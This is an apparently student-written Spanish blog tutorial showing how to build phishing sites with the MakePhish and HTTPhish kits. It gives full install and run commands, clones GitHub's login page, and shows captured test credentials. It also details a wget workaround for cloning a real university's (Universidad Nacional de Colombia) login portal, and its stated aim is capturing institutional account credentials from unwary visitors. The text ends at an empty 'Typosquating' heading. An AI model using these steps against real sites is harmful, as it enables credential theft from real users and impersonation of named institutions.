 
Vamos a demostrar lo fácil que es montar un sitio web de **phishing** para robar las credenciales del primer cibernauta incauto que pique la caña. 
La palabra *phishing* es un anglicismo que puede emplearse en lugar de "suplantación de identidad" [[?]​](https://www.facebook.com/RAE/posts/extranjerismos-phishingpara-evitar-el-anglicismo-phishing-se-pueden-emplear-en-s/4168733576480269/) y denota el intento de un atacante de extrase información sensible o simplemente perjudicar una victima enviandole un mensaje fraudulento o presentandose como alguien o algo que no es, como por ejemplo alguien de confianza, su jefe o su banco. En nuestro ejemplo no haremos pasar por el inicio de sesion de la universidad lo cual nos daría la posibildiad de capturar credenciales de cuentas institucionales

## Primero lo primero: el sevidor web
Al montar un página web falsa, pues, necesitamos donde alojar nuestra página que sea accesible desde cualquier parte del internet. El proceso del montaje del servidor web graiuto lo explicamos ya en el artículo [crear un servidor web con Google Cloud](https://fredyrosero.github.io/google%20cloud/2022/02/27/Crear-una-servidor-web-gr%C3%A1tis-con-Google-Cloud.html) donde configuramos el servidor *Apache* para que busque los archivos a servir en `/home/user/www`. Sin embargo, en vez de utilizar *Apache* vamos a utilizar el servidor web integrado de **PHP** [[?]](https://www.php.net/manual/en/features.commandline.webserver.php)

## Make Phish de @andpalmier
El programa `MakePhish` de [@andpalmier](https://github.com/andpalmier) nos permite clonar sitios web automáticamente y parchearlos con PHP para crear páginas de phishing
> This is a proof of concept to automatically create phishing kits based on a specified URL, please note that makephish will work exclusively on websites having a simple pages with `<form>` logins.

https://github.com/andpalmier/makephish

Procederemos a clonar la página de inicio de sesión de la Universidad Nacional para luego servirla en nuestro servidor web:

### Prerrequisitos
1. Instalmos `cURL`, `Git` y las los escenciales de compilación de linux:
    ```bash
    sudo apt update
    sudo apt install curl git build-essential
    ```

2. Instalamos `Go` y hacemos el comando accesible
    ```bash
    mkdir sandbox
    cd sandbox
    curl -O https://dl.google.com/go/go1.12.7.linux-amd64.tar.gz
    tar xvf go1.12.7.linux-amd64.tar.gz
    sudo chown -R root:root ./go
    sudo mv go /usr/local
    vim ~/.profile
    # export GOPATH=$HOME/work
    # export PATH=$PATH:/usr/local/go/bin:$GOPATH/bin
    ```

### Instalación de MakePhish
Clonamos el repositorio de `MakePhish` y compilamos el programa

```bash
mkdir ~/scripts
cd ~/scripts
git clone https://github.com/andpalmier/makephish
cd makephish
make makephish
```

### Ejecución
1. Clonaremos la página de inicio de sesión de *Github* que por defecto quedará en `kits/`
    ```bash
    URL="https://github.com/login/"
    cd ~/scripts/makephish
    ./build/makephish -url $URL
    ```
2. En el directorio creado en `kits/` lanzaremos el servidor de *PHP* con acceso remoto en el puerto 80 
    ```bash
    cd kits/github.com
    sudo php -S 0.0.0.0:80
    ```
3. La victima ingresaría sus credenciales y nuestra página impostora redirigirá el usuario a la página real de Github. Para este ejemplo usaremos `miUsuario` como usuario y `miContraseñ4` como contraseña.

4. Para ver las credenciales capturadas, vamos a la URL web `/log` de nuestro servidor, en esta caso con `curl localhost/log`:
    ```
    =============+=============
    Username/Email: miUsuario
    Password:       miContraseñ4
    IP:
    Date:           Mon Feb 28, 2022 7:25 am
    User Agent:     Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
    ===========================
    ``` 
#### Observaciones
El código intentará obtener el nodo HTML tipo formulario con el atributo `method` [[?]](https://github.com/andpalmier/makephish/blob/main/cmd/makephish/makephish.go#L44) y luego parchará el arhivo `index.html` de la carpeta de desitno. Si no encuentra un formulario o un logra crear el `index.html`, el programa no funcionará como son los siguientes casos:
* https://smartkey.xertica.com/cloudkey/a/unal.edu.co/user/login
* [https://autenticasia.unal.edu.co/oam/server/obrareq.cgi?](https://autenticasia.unal.edu.co/oam/server/obrareq.cgi?encquery%3Dn7f%2FxYMMCM%2F4eOGtG3zYDXS%2FYKJMx7poqUGEK2XYTFbLbKUhN5OGgkOvkmo8aAKkriiKmfxlaBHUyEVVm1%2BsyiUuYlUgBa%2FbwSvPuShhMnzLdQis1mr%2BehZ6Ma%2B2XlKCjJqTfp5pOZmkqxdgcQLfbF7M0AVOcGVb3xioCtiL0Ndy%2FMMGTFr%2BUQCrL5fwg%2BCCVeQ06%2BE4630RJALCUEgHWPH2KX9d70WVKZPyKgcVbzV48mDQ9PCdRc1SHIVKgIbT01%2FqS6XPPX9bDVTJP2v3z2TM%2F5i3NMwzZ%2BGOXSptYjw%3D%20agentid%3DWT_uncuxwebX%20ver%3D1%20crmethod%3D2&ECID-Context=1.005qGummJRv6MQRMyYbe6G000AW100DIea%3BkXjE)

## HTTPhish de @miguelangelramirez
> Quickly clone a website and launch an HTTP server to phish information with httphish.py
https://github.com/miguelangelramirez/httphish
### Prerrequisitos
Instalmos `wget` y `python3`
```bash
sudo apt update
sudo apt install wget python3
```
### Instalación
```bash
git clone https://github.com/miguelangelramirez/httphish.git
```
### Uso
Solo tenemos que ejecutar el siguiente comando e ingresar la URL del formlario del *login* y presionar *enter* para que python se encargue del servidor web en el puerto 80:
```bash
cd httphish
sudo python3 httphish.py
```
Las instrucciones completas estan disponibles [github.com/miguelangelramirez/httphish#how-to-use](https://github.com/miguelangelramirez/httphish#how-to-use) pero son tan sencillas como

1. Definir si se quiere (clonar) descagar el login con `wget`
2. Ingresar la URL del fomrulario a clonar
3. Definir el tipo de navegador (User Agent) que simplemete se puede dejar el por defecto
4. Definir el dominio (no la URL completa) de redirección
5. Consultar en el arhivo `post.txt` las credenciales capturadas de las variables POST: 
    ```txt
    username=hola&password=MUNDO%21&submit=Iniciar+Sesi%C3%B3n
    ```
6. Luego de finalizar y antes de intentar clonar otro formulario corremos `sudo python3 cleanup.py`

### Ensayos
#### Github
El [login de Github](view-source:https://github.com/login/) solicita [una hoja de estilos framework](view-source:https://github.githubassets.com/assets/frameworks-403b2d0d5d0279a4c043.css) 





#### SIA
En el navegador solicitamos la URL https://sia.unal.edu.co/ServiciosApp la cual nos redireccionará a
[https://autenticasia.unal.edu.co/oam/server/obrareq.cgi?encquery%3Dn7f%2FxYMMC...](https://autenticasia.unal.edu.co/oam/server/obrareq.cgi?encquery%3Dn7f%2FxYMMCM%2F4eOGtG3zYDXS%2FYKJMx7poqUGEK2XYTFbLbKUhN5OGgkOvkmo8aAKkriiKmfxlaBHUyEVVm1%2BsyiUuYlUgBa%2FbwSvPuShhMnzLdQis1mr%2BehZ6Ma%2B2XlKCjJqTfp5pOZmkqxdgcQLfbF7M0AVOcGVb3xioCtiL0Ndy%2FMMGTFr%2BUQCrL5fwg%2BCCVeQ06%2BE4630RJALCUEgHWPH2KX9d70WVKZPyKgcVbzV48mDQ9PCdRc1SHIVKgIbT01%2FqS6XPPX9bDVTJP2v3z2TM%2F5i3NMwzZ%2BGOXSptYjw%3D%20agentid%3DWT_uncuxwebX%20ver%3D1%20crmethod%3D2&ECID-Context=1.005qGummJRv6MQRMyYbe6G000AW100DIea%3BkXjE) esta última es la página que contiene el formulario de login. Pero la URL es demasiado larga (`"The name is too long, 373 chars total."`) para el programa lo que ocasionará un bug que descargará todos los recursos en la raíz y no en `web`. La solución es sencilla: 
1. Replica la instrucción de [[httphish.py#L56]](https://github.com/miguelangelramirez/httphish/blob/master/httphish.py#L56) descargando manualmente los archivos con
    ```bash
    mkdir web
    URL_PHISH="https://autenticasia.unal.edu.co/oam/server/obrareq.cgi?encquery%3Dn7f%2FxYMMCM%2F4eOGtG3zYDXS%2FYKJMx7poqUGEK2XYTFbLbKUhN5OGgkOvkmo8aAKkriiKmfxlaBHUyEVVm1%2BsyiUuYlUgBa%2FbwSvPuShhMnzLdQis1mr%2BehZ6Ma%2B2XlKCjJqTfp5pOZmkqxdgcQLfbF7M0AVOcGVb3xioCtiL0Ndy%2FMMGTFr%2BUQCrL5fwg%2BCCVeQ06%2BE4630RJALCUEgHWPH2KX9d70WVKZPyKgcVbzV48mDQ9PCdRc1SHIVKgIbT01%2FqS6XPPX9bDVTJP2v3z2TM%2F5i3NMwzZ%2BGOXSptYjw%3D%20agentid%3DWT_uncuxwebX%20ver%3D1%20crmethod%3D2&ECID-Context=1.005qGummJRv6MQRMyYbe6G000AW100DIea%3BkXjE"
    wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL_PHISH --directory-prefix=web
    ```
2. Renombra el archivo `obrareq.cgi?encquery%3DAUN...` a uno mas corto como `index.cgi`
3. Lanza de nuevo el programa 
4. Ingresa `"n"` en `"Do you want to automatically download the page with wget?:"` 
5. Ingresas el nombre del archivo del formulario  como `index.cgi`
6. Colocas `sia.unal.edu.co/ServiciosApp` como dominio de redirección.

#### Login UNAL
https://smartkey.xertica.com/cloudkey/a/unal.edu.co/user/login


## Typosquating
